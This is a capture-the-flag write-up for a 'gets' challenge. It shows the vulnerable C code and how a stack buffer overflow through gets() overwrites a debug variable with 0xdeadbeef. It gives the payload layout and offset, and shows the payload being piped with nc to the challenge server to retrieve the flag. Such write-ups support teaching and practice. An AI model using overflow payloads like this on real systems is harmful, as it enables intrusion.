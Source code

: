 # Gets
>My favorite libc function is gets. I am very confident in its security. Connect with
nc gets.litctf.live 1337
>
>133 solves / 120 points

We are given gets.c and the gets binary

Two checks:

1. Strcmp(buf, "Yes")
2. debug==0xdeadbeef

```
long debug = 0; 
char buf[0x20];
gets(buf);

if(strcmp(buf, "Yes") == 0){
                puts("I'm glad you understand.");
                if(debug == 0xdeadbeef){
```

Binary is in little endian, so when creating payload need to reverse 0xdeadbeef

Need to overwrite the buf variable so that it will overflow into the long debug local variable.

For checks:
1. Yes\0 + NOP till debug variable
2. \xef\xbe\xad\xde

At first I brute forced from 30 to 40 (see run.bash) as I didn't know how to calculate the offset. I knew that the buf variable had a buffer size of 32 bytes, so it was somewhere there.

Offset: 32 bytes (char buf[0x20];) + 4 bytes 

```
$ python gets.py 36 | nc gets.litctf.live 1337
== proof-of-work: disabled ==
Gets is very secure. You may see other sources tell you otherwise, but they are wrong.
Geeksforgeeks says gets is insecure. G4g also says graph coloring can be solved in O(n).
Wikipedia says gets is insecure. Anyone can write anything on wikipedia, it is unreliable.
The linux docs say gets is insecure. No one reads the linux docs except stuck up nerds.
My compiler warned me gets is insecure. My compiler also can't add semicolons automatically
Hopefully you can see that gets is in fact secure, and all who tell you otherwise are lying.

Are you starting to understand?
I'm glad you understand.
Debug info:
flag{d0_y0u_g3ts_1t}
```
